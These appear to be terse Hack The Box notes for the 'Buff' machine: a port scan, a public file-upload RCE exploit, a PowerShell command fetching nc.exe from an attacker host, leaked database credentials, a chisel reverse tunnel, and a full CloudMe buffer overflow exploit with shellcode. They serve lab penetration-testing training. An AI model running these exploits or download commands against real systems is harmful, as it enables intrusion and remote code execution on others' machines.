




# Nmap 7.91 scan initiated Fri Feb 26 11:43:18 2021 as: nmap -v -sC -sV -Pn -oN nmap 10.10.10.198
Nmap scan report for 10.10.10.198
Host is up (0.18s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb 26 11:44:07 2021 -- 1 IP address (1 host up) scanned in 49.05 seconds


http://10.10.10.198:8080/


http://10.10.10.198:8080/upload.php
 Notice: Undefined index: id in C:\xampp\htdocs\gym\upload.php on line 4


http://10.10.10.198:8080/up.php

Notice: Undefined index: name in C:\xampp\htdocs\gym\up.php on line 2

Notice: Undefined index: ext in C:\xampp\htdocs\gym\up.php on line 3


https://www.exploit-db.com/exploits/48506
Projectworlds.in


python 48506.py http://10.10.10.198:8080/





C:\xampp\htdocs\gym\upload> whoami
�PNG

buff\shaun


powershell (new-object System.Net.WebClient).Downloadfile('http://10.10.14.3/nc.exe', 'nc.exe')

C:\xampp\htdocs\gym>type New*
type New*

New Text Document.txt


$mysql_host = "mysql16.000webhost.com";
$mysql_database = "a8743500_secure";
$mysql_user = "a8743500_secure";
$mysql_password = "ipad12345";


c:\Users>tree /f .
tree /f .
Folder PATH listing
Volume serial number is A22D-49F7
C:\USERS
Administrator
Public
   Documents
   Downloads
   Music
   Pictures
   Videos
shaun
    3D Objects
    Contacts
    Desktop
           user.txt
           
    Documents
           Tasks.bat
           
    Downloads
           CloudMe_1112.exe
           
    Favorites
          Bing.url
          
       Links
    Links
           Desktop.lnk
           Downloads.lnk
           
    Music
    OneDrive
    Pictures
       Camera Roll
       Saved Pictures
    Saved Games
    Searches
           winrt--{S-1-5-21-2277156429-3381729605-2640630771-1001}-.searchconnector-ms
           
    Videos





tasklist 

pid
CloudMe.exe                   4372


netstat -aon | findstr 4372




sudo /opt/chisel/chisel_1.7.3_linux_amd64 server --port 9002 --reverse
chisel.exe client 10.10.14.3:9002 R:8888:127.0.0.1:8888

```py
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
payload = ""
payload += b"\xda\xce\xbf\xb3\x49\x24\xf3\xd9\x74\x24\xf4\x58\x33"
payload += b"\xc9\xb1\x52\x31\x78\x17\x03\x78\x17\x83\x73\x4d\xc6"
payload += b"\x06\x8f\xa6\x84\xe9\x6f\x37\xe9\x60\x8a\x06\x29\x16"
payload += b"\xdf\x39\x99\x5c\x8d\xb5\x52\x30\x25\x4d\x16\x9d\x4a"
payload += b"\xe6\x9d\xfb\x65\xf7\x8e\x38\xe4\x7b\xcd\x6c\xc6\x42"
payload += b"\x1e\x61\x07\x82\x43\x88\x55\x5b\x0f\x3f\x49\xe8\x45"
payload += b"\xfc\xe2\xa2\x48\x84\x17\x72\x6a\xa5\x86\x08\x35\x65"
payload += b"\x29\xdc\x4d\x2c\x31\x01\x6b\xe6\xca\xf1\x07\xf9\x1a"
payload += b"\xc8\xe8\x56\x63\xe4\x1a\xa6\xa4\xc3\xc4\xdd\xdc\x37"
payload += b"\x78\xe6\x1b\x45\xa6\x63\xbf\xed\x2d\xd3\x1b\x0f\xe1"
payload += b"\x82\xe8\x03\x4e\xc0\xb6\x07\x51\x05\xcd\x3c\xda\xa8"
payload += b"\x01\xb5\x98\x8e\x85\x9d\x7b\xae\x9c\x7b\x2d\xcf\xfe"
payload += b"\x23\x92\x75\x75\xc9\xc7\x07\xd4\x86\x24\x2a\xe6\x56"
payload += b"\x23\x3d\x95\x64\xec\x95\x31\xc5\x65\x30\xc6\x2a\x5c"
payload += b"\x84\x58\xd5\x5f\xf5\x71\x12\x0b\xa5\xe9\xb3\x34\x2e"
payload += b"\xe9\x3c\xe1\xe1\xb9\x92\x5a\x42\x69\x53\x0b\x2a\x63"
payload += b"\x5c\x74\x4a\x8c\xb6\x1d\xe1\x77\x51\x28\xfc\x79\xa2"
payload += b"\x44\x02\x85\xb5\xc8\x8b\x63\xdf\xe0\xdd\x3c\x48\x98"
payload += b"\x47\xb6\xe9\x65\x52\xb3\x2a\xed\x51\x44\xe4\x06\x1f"
payload += b"\x56\x91\xe6\x6a\x04\x34\xf8\x40\x20\xda\x6b\x0f\xb0"
payload += b"\x95\x97\x98\xe7\xf2\x66\xd1\x6d\xef\xd1\x4b\x93\xf2"
payload += b"\x84\xb4\x17\x29\x75\x3a\x96\xbc\xc1\x18\x88\x78\xc9"
payload += b"\x24\xfc\xd4\x9c\xf2\xaa\x92\x76\xb5\x04\x4d\x24\x1f"
payload += b"\xc0\x08\x06\xa0\x96\x14\x43\x56\x76\xa4\x3a\x2f\x89"
payload += b"\x09\xab\xa7\xf2\x77\x4b\x47\x29\x3c\x7b\x02\x73\x15"
payload += b"\x14\xcb\xe6\x27\x79\xec\xdd\x64\x84\x6f\xd7\x14\x73"
payload += b"\x6f\x92\x11\x3f\x37\x4f\x68\x50\xd2\x6f\xdf\x51\xf7"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))	

buf = padding1 + EIP + NOPS + payload + overrun 

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(buf)
except Exception as e:
	print(sys.exc_value)
```


/usr/bin/python2 /home/kali/htb/boxes/buff/10.10.10.198/48389.py



